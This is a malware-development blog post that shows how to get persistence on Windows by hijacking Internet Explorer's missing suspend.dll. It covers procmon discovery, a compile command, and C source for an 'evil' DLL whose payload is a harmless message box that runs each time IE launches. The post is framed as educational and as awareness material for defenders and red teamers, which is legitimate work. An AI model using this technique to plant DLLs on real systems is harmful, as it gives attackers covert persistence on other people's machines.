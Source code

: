 ```yaml
---
title:  "Malware development: persistence - part 15. Internet Explorer. Simple C++ example."
date:   2022-10-12 03:00:00 +0300
header:
  teaser: "/assets/images/75/2022-10-13_00-24_1.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/75/2022-10-13_00-24_1.png){:class="img-responsive"}    

This post is the just result of self-researching one of the interesting malware persistence trick: via Internet Explorer.     

### internet explorer

In one of my [previous posts](/pentest/2021/10/12/dll-hijacking-2.html) I wrote about real world example of DLL hijacking. In this time the victim is Internet Explorer. Surely many of you do not even use it and are unlikely to deleted it on purpose from Windows system.    

### practical example

As in my previous post, let’s go to run [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, and setting the following filters:    

![pers](/assets/images/75/2022-10-13_00-03.png){:class="img-responsive"}    

Then run `Internet Explorer`:     

![pers](/assets/images/75/2022-10-13_00-04.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-04_1.png){:class="img-responsive"}    

As you can see, the process `iexplore.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `suspend.dll`:     

![pers](/assets/images/75/2022-10-13_00-05.png){:class="img-responsive"}    

Let's go to search any other probably locations, maybe we have legit DLL:    

```powershell
cd C:\
dir /b /s suspend.dll
```

![pers](/assets/images/75/2022-10-13_00-09.png){:class="img-responsive"}    

But as you can see, file not found so, this DLL is used by Internet Explorer only.    

Then, I prepared "evil" DLL, `meow-woof` messagebox:        

```cpp
/*
evil.c - malicious DLL
DLL hijacking. Internet Explorer
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

### demo

Let's go to see everything in action. Compiling our evil DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![pers](/assets/images/75/2022-10-13_00-12.png){:class="img-responsive"}    

Then naming the file `suspend.dll` and placing it in the directory where Internet Explorer is loaded:     

![pers](/assets/images/75/2022-10-13_06-13.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-15.png){:class="img-responsive"}    

And finally try to run our victim application:     

![pers](/assets/images/75/2022-10-13_00-16_1.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-18.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-24.png){:class="img-responsive"}    

After we close pop-up IE work correctly, not crashed:    

![pers](/assets/images/75/2022-10-13_00-16.png){:class="img-responsive"}    

As you can see, it's worked. Perfect! =^..^=     

### conclusion

We now have achieved persistence via IE.    

That's why this post belongs to the persistence category, our malicious DLL will launch anytime user starts IE too. And, when they exit it too. Surprise for my windows lovers. You don't even have to install or remove anything.    

It's worked also on `Windows 11 x64`:     

![pers](/assets/images/75/2022-10-13_06-37.png){:class="img-responsive"}    

Although it’s unlikely that anyone will launch IE in 2022, will you agree?    

As a Windows bug hunter, if you want to find privilege escalation vulnerabilities on the operating system itself, you’ll often want to start from a blank page, with a clean installation of Windows.      

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[source code in github](https://github.com/cocomelonc/2022-10-12-malware-pers-15)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
